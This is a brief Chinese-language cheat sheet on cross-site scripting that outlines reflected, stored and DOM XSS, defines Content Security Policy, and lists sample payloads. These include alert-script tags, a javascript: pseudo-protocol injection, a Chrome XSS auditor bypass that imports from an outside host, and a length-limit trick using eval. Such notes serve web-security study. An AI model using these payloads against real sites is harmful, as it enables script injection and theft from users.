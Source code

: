 XSS
================================

分类
--------------------------------
反射型xss
    一次浏览
    最常见，最广泛
    e.g http://www.baidu.com<script>alert("hack")</script>
储存型xss
    危害较大
    把相应脚本传到服务器上
DOMxss
    类似


CSP
--------------------------------
Content Security Policy，简称 CSP。顾名思义，这个规范与内容安全有关，主要是用来定义页面可以加载哪些资源，减少 XSS 的发生。


payload
--------------------------------

常用
<script>alert(/xss/)</script>

伪协议
<table background="javascript:alert(/xss/)"></table>

Chrome XSS auditor bypass with HPP:
?param=https://&param=@z.exeye.io/import%20rel=import%3E

长度限制
<script>s+="l"</script>
\...
<script>eval(s)</script>

